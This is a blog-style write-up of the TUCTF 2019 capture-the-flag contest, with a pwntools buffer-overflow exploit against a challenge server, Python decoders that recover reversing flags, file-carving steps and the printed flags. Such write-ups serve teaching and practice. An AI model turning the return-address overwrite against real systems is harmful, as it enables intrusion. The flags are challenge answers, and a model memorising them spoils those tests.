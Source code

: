 ```yaml
---
layout: post
title: TUCTF 2019
---
```


Introduction
------

Should really be studying for upcoming test.  

---

Pwn
------
#### The First

Running `info functions` in gdb, we see that there is a `printFlag` function. Just overflow the buffer and jump to the function to get the flag. Exploit script is as follows, 

```python
from pwn import *

payload = 'A'*24+'\xf6\x91\x04\x08'

r = remote('chal.tuctf.com', 30508)

r.recvuntil('>')
r.send(payload)
r.interactive()
```


Reversing
------
#### Faker

Decompiled in ghidra and rewrote in python. Notice the parameters printFlag is called with. Used that to get the flag. 

```python
param1 = "\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k"
flag=''
for i in range(len(param1)):
	flag+=chr(((((ord(param1[i])^0xf)-0x1d)*8)%0x5f)+0x20)

print flag
```

Flag: `TUCTF{7h3r35_4lw4y5_m0r3_70_4_b1n4ry_7h4n_m3375_7h3_d3bu663r}`


#### Object

Decompile in ghidra and reconstructed the program in python.

```python
password=[0xfd, 0xff, 0xd3, 0xfd, 0xd9, 0xa3, 0x93, 0x35, 0x89, 0x39, 0xb1, 0x3d, 0x3b, 0xbf, 0x8d, 0x3d, 0x3b, 0x37, 0x35, 0x89, 0x3f, 0xeb, 0x35, 0x89, 0xeb, 0x91, 0xb1, 0x33, 0x3d, 0x83, 0x37, 0x89, 0x39, 0xeb, 0x3b, 0x85, 0x37, 0x3f, 0xeb, 0x99, 0x8d, 0x3d, 0x39, 0xaf, 0x00]
flag=''
for i in range(len(password)):
	c = password[i]
	flag+= chr(((c^255)^0xaa)>>1)
print flag
```

Flag: `TUCTF{c0n6r47ul4710n5_0n_br34k1n6_7h15_fl46}`




Misc
------
#### Onions

We are given an image. Naturally, the first thing I did was inspect the image exif for anything that stands out. But there's nothing special to be seen there. Tried running `foremost` on the file to extract hidden files, no result either. Running `binwalk` we get, 

```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
275566        0x4346E         7-zip archive data, version 0.4

```

Since foremost couldn't extract the file, maybe `binwalk -e` can. No result... 

In that case, lets just straight up unzip the image with `7z e shrek.jpg`. That surprisingly worked... Now we just continue unzipping the archives that pop out until we get the flag. 

Flag: `TUCTF{F1L3S4R3L1K30N10NSTH3YH4V3L4Y3RS}`


#### Super Secret

We are given an ODT file. When trying to open it, LibreOffice asks us if we want to enable macros. Hmm.. maybe there's something there. To further inspect the file, we unzip it and we see a suspicious file `flag.xml`, and in it lies our flag.

Flag: `TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}`